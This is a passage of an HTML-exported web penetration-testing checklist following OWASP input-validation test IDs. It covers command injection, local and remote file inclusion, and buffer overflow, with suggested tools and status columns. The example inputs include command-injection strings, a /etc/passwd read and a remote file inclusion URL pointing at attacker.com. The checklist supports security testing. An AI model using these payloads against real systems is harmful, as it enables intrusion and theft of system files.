 		<td align="left" valign=bottom><i><font color="#808080">Enter OS commands in the input field.<br>?arg=1; system('id')</font></i></td>
		<td align="left" valign=middle><i><font color="#808080">Burp Proxy, ZAP, Liffy, Panoptic</font></i></td>
		<td align="center" valign=middle bgcolor="#C6D9F1"><font face="Calibri" color="#000000">Not Started</font></td>
		<td align="left" valign=bottom><br></td>
	</tr>
	<tr>
		<td height="35" align="left" valign=middle><br></td>
		<td align="left" valign=middle>Testing for Local File Inclusion</td>
		<td align="left" valign=bottom><i><font color="#808080">LFI with dot-dot-slash (../../), PHP Wrapper (php://filter/convert.base64-encode/resource)</font></i></td>
		<td align="left" valign=middle><i><font color="#808080">Burp Proxy, fimap, Liffy</font></i></td>
		<td align="center" valign=middle bgcolor="#C6D9F1"><font face="Calibri" color="#000000">Not Started</font></td>
		<td align="left" valign=bottom><br></td>
	</tr>
	<tr>
		<td height="35" align="left" valign=middle><br></td>
		<td align="left" valign=middle>Testing for Remote File Inclusion</td>
		<td align="left" valign=bottom><i><font color="#808080">RFI from malicious URL<br>?page.php?file=http://attacker.com/malicious_page</font></i></td>
		<td align="left" valign=middle><i><font color="#808080">Burp Proxy, fimap, Liffy</font></i></td>
		<td align="center" valign=middle bgcolor="#C6D9F1"><font face="Calibri" color="#000000">Not Started</font></td>
		<td align="left" valign=bottom><br></td>
	</tr>
	<tr>
		<td height="75" align="left" valign=middle>OTG-INPVAL-013</td>
		<td align="left" valign=middle>Testing for Command Injection</td>
		<td align="left" valign=bottom><i><font color="#808080">Understand the application platform, OS, folder structure, relative path and execute OS commands on a Web server.<br>%3Bcat%20/etc/passwd<br>test.pdf+|+Dir C:\</font></i></td>
		<td align="left" valign=middle><i><font color="#808080">Burp Proxy, ZAP, Commix</font></i></td>
		<td align="center" valign=middle bgcolor="#C6D9F1"><font face="Calibri" color="#000000">Not Started</font></td>
		<td align="left" valign=bottom><br></td>
	</tr>
	<tr>
		<td height="56" align="left" valign=middle>OTG-INPVAL-014</td>
		<td align="left" valign=middle>Testing for Buffer overflow</td>
		<td align="left" valign=bottom><i><font color="#808080">• Testing for heap overflow vulnerability<br>• Testing for stack overflow vulnerability<br>• Testing for format string vulnerability</font></i></td>
		<td align="left" valign=middle><i><font color="#808080">Immunity Canvas, Spike, MSF, Nessus</font></i></td>
		<td align="center" valign=middle bgcolor="#C6D9F1"><font face="Calibri" color="#000000">Not Started</font></td>
		<td align="left" valign=bottom><br></td>
	</tr>
	<tr>
		<td height="20" align="left" valign=middle><br></td>
		<td align="left" valign=middle>Testing for Heap overflow</td>
		<td align="left" valign=bottom><i><font color="#808080"><br></font></i></td>
		<td align="left" valign=middle><i><font color="#808080"><br></font></i></td>
		<td align="center" valign=middle bgcolor="#C6D9F1"><font face="Calibri" color="#000000">Not Started</font></td>
		<td align="left" valign=bottom><br></td>
	</tr>
	<tr>
		<td height="20" align="left" valign=middle><br></td>
		<td align="left" valign=middle>Testing for Stack overflow</td>
		<td align="left" valign=bottom><i><font color="#808080"><br></font></i></td>